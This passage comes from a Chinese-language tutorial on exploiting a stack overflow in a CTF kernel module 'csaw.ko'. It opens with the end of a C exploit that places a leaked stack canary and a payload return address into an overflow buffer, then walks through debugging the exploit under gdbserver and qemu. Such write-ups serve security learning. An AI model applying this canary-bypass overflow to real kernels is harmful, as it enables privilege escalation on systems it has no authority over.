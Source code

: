 ```
        printf("%02x",canary[i] &amp; 0xff);
    `}`
    printf("n");
    char poc[84] = `{`0`}`;
    memset(poc,0x41,76);
    memcpy(poc+64,canary,4);//set canary
    *((void**)(poc+64+4+4)) = &amp;payload;
    printf("[*]payload:%sn",poc);
    printf("Triger bug:n");
    //init tf struct;
    prepare_tf();
    write(fd,poc,76);
    return 0;
`}`
```

**1. 调试exploit**

还是像之前一样，设置gdbserver，并且把csaw.ko这个模块的信息传递给gdb。

先确定模块代码节地址：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0163cc2809bf7f75c3.png)

这一步之后，gdbserver连接，添加symbol-file之后，对有漏洞的函数下断，就可以回到qemu中，启用exploit程序了。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t014d168b8c658b2694.png)

我们对ret的地方下断点，然后c过去：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01597443abe7936a3e.png)

查看一下栈顶的情况：

[![](https://p2.ssl.qhimg.com/t01924aa209a56cc197.png)](https://p2.ssl.qhimg.com/t01924aa209a56cc197.png)

出问题了，并没有要ret到payload地址去。

**2. 发现问题**

既然已经ret不到payload地址上，那么我们需要往前找一找，单步一下看看栈顶的变化，找出造成这种情况的原因：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t013d9749f53c5996ee.png)

直接对这个平衡栈的指令下断，然后c，qemu里再次跑一下exploit程序。

[![](https://p5.ssl.qhimg.com/t017de636699d1b9b3b.png)](https://p5.ssl.qhimg.com/t017de636699d1b9b3b.png)

